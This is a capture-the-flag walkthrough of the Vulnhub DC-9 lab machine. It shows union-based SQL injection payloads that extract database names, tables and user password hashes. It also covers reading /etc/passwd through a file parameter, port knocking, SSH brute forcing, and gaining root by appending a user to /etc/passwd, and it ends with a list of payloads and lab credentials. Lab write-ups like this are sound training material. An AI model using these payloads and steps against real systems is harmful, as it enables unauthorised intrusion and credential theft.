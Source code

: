 # Vulnhub-DC 9

## NMAP
```bash

nmap -sC -sV 192.168.1.7

Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-16 09:31 PKT
Nmap scan report for 192.168.1.7
Host is up (0.00021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:b3:38:74:32:74:0b:c5:16:dc:13:de:cb:9b:8a:c3 (RSA)
|   256 06:5c:93:87:15:54:68:6b:88:91:55:cf:f8:9a:ce:40 (ECDSA)
|_  256 e4:2c:88:da:88:63:26:8c:93:d5:f7:63:2b:a3:eb:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
MAC Address: 08:00:27:1B:8F:38 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

## PORT 80 (HTTP)

<img src="https://imgur.com/wMTyQ9t.png"/>

Going to `Display All Records`

we can see information of users

<img src="https://i.imgur.com/vJVgcUf.png"/>

We can a login page , lets' try to do some basic sqli stuff

<img src="https://imgur.com/YIhwdhT.png"/>

I tried `admin ' or 1=1 #` , `admin' or 1=1 -- ` , but both failed

<img src="https://imgur.com/IBCnjDr.png"/>

Going over to `search.php` we can see that it searches for a name so let's supply the name `mary` since information for that user exists

<img src="https://imgur.com/O4Ao6Pe.png"/>

Here let's perform a query `mary' and 1=1 # ` to see if it still returns us information of mary

<img src="https://imgur.com/jAPaRIX.png"/>

<img src="https://imgur.com/ptYnVv1.png"/>

It does , so here we can actually sqli but first we need to identify how many columns are there to do that we are going to ultize `order by <number>` which will sort by value of the number of column of provide , we will keep increasing the number we get no repsonse so,

`mary' order by 1 #`

<img src="https://imgur.com/DYR1asi.png"/>
I kept getting result till  till 6 columns but after that I get no response

<img src="https://imgur.com/k7vMuoM.png"/>

<img src="https://imgur.com/DjNkMxD.png"/>

Which means we have 6 columns so we can now perform sql injection

`mary' union select version(),user(),database(),4,5,6 #`

<img src="https://i.imgur.com/MxEOkzA.png"/>

This machine is using MariaDB, user for the database client is dbuser and the database name is Staff , now we need to extract table name ,then the columns and the exfiltrate the data

We can only perform a query to give us all the names for database

```
mary' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata #
```

<img src="https://i.imgur.com/4pTkqZv.png"/>

So there two databases but right now let's just focus on `Staff`


```
mary' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database() #
```

<img src="https://i.imgur.com/e4yvYtY.png"/>

We have two tables , `StaffDetails` and `Users` so let's see column names for Users table

```
mary' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='Users' #
```

<img src="https://i.imgur.com/1xqzABC.png"/>

We have the column names , we are intersted in username and password so let's just extract the data

<img src="https://i.imgur.com/b0HMGm0.png"/>

And we got the user name password hash , this could have been done with sqlmap easilty by just intercepting the request from `search.php` and saving it to a file and running it against sqlmap

<img src="https://i.imgur.com/VYgL09W.png"/>

<img src="https://i.imgur.com/CiocyQU.png"/>

Let's visit crackstation 

<img src="https://i.imgur.com/TBizxi7.png"/>

As soon as we log in we'll get an error

<img src="https://i.imgur.com/xibM8xS.png"/>

I tried the parameter `file` and got the contents of `/etc/passwd`

<img src="https://imgur.com/9pjNcw7.png"/>

So I copied the results in a file and grab the users only 

<img src="https://imgur.com/Z4fy4Jh.png"/>

<img src="https://imgur.com/SEVrVLM.png"/>

Now remeber that we had 2 databases `Staff` and `users` , let's use sqlmap to dump data from users database

<img src="https://imgur.com/FQSbfcN.png"/>

<img src="https://i.imgur.com/SlMui9x.png"/>

I have already saved the usernames ,let's just grab the password and start brute forcing aginst SSH 
<img src="https://imgur.com/O5LsSck.png"/>

But ssh is filtered so we are going to first see if we can find a port knocking configuration or not 

<img src="https://i.imgur.com/KY7pFuF.png"/>

Now can perform port-knocking to open ssh port

<img src="https://imgur.com/onQzbec.png"/>

We found 2 passwords with brute forcing

<img src="https://imgur.com/hZHQc4y.png"/>

<img src="https://imgur.com/SLgwuOJ.png"/>

<img src="https://imgur.com/4s5mbaT.png"/>

After logging in with `janitor` we can find more passwords

<img src="https://i.imgur.com/BQUSSXB.png"/>

Let's add those passwords and again try brute forcing

<img src="https://i.imgur.com/bbX8P5r.png"/>

<img src="https://imgur.com/rTM4GXL.png"/>

Switching to user `fredf` we can that can run the file test as sudo

<img src="https://i.imgur.com/aA6ezrt.png"/>

<img src="https://imgur.com/3UZYm1H.png"/>

It's a binary , let's try to execute it and see what happens

<img src="https://i.imgur.com/GtQ6sQY.png"/>

Wierd it says test.py which is a python file which reads and appends so we need to find that python file

<img src="https://i.imgur.com/fO6V4tQ.png"/>

And we found it

<img src="https://i.imgur.com/tSAUzAa.png"/>

So going through the source code , it's going to take 2 arguments as file , it's going to read the contents from first file store it in variable then it's going to append the contents in the file we specify we could exploit this by first adding a root user in a file then reading the contents from there and appending it to `/etc/passwd` file

<img src="https://imgur.com/0xxtn7u.png"/>

<img src="https://imgur.com/gdFtj7u.png"/>

Now let's see if this actually worked or not

<img src="https://i.imgur.com/q1aN2N7.png"/>

<img src="https://i.imgur.com/Ou3Am93.png"/>

This has added a user so we can switch to this user and become root

<img src="https://imgur.com/h0UuulA.png"/>

admin:transorbital1


```
chandlerb:UrAG0D!
janitor: Ilovepeepee
joeyt: Passw0rd
fredf: B4-Tru3-001 
```
mary' union select 1,2,3,4,5,6 #

mary' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database() #

mary' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='Users' #

mary' union select group_concat(Username),group_concat(Password),3,4,5,6 from 'Users' #

mary' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata #
